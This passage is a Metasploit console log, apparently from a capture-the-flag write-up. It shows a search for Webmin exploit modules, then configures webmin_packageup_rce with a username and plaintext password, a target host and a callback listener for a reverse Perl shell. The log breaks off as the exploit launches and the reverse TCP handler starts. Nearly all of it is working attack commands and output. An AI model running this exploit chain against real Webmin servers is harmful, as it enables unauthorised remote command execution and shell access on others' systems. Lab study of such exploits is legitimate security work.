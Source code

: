 ```bash
   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   1  auxiliary/admin/webmin/file_disclosure       2006-06-30       normal     No     Webmin File Disclosure
   2  exploit/linux/http/webmin_packageup_rce      2019-05-16       excellent  Yes    Webmin Package Updates Remote Command Execution
   3  exploit/unix/webapp/webmin_backdoor          2019-08-10       excellent  Yes    Webmin password_change.cgi Backdoor
   4  exploit/unix/webapp/webmin_show_cgi_exec     2012-09-06       excellent  Yes    Webmin /file/show.cgi Remote Command Execution
   5  exploit/unix/webapp/webmin_upload_exec       2019-01-17       excellent  Yes    Webmin Upload Authenticated RCE


msf5 > use exploit/linux/http/webmin_packageup_rce 
msf5 exploit(linux/http/webmin_packageup_rce) > show options

Module options (exploit/linux/http/webmin_packageup_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    yes       Webmin Password
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      10000            yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path for Webmin application
   USERNAME                    yes       Webmin Username
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Webmin <= 1.910


msf5 exploit(linux/http/webmin_packageup_rce) > set password computer2008
password => computer2008
msf5 exploit(linux/http/webmin_packageup_rce) > set username Matt
username => Matt
msf5 exploit(linux/http/webmin_packageup_rce) > set ssl true
ssl => true
msf5 exploit(linux/http/webmin_packageup_rce) > set verbose true
verbose => true
msf5 exploit(linux/http/webmin_packageup_rce) > set lhost 10.10.15.124
lhost => 10.10.15.124
msf5 exploit(linux/http/webmin_packageup_rce) > set rhosts 10.10.10.160
rhosts => 10.10.10.160
msf5 exploit(linux/http/webmin_packageup_rce) > exploit

[*] Started reverse TCP handler on 10.10.15.124:4444 
```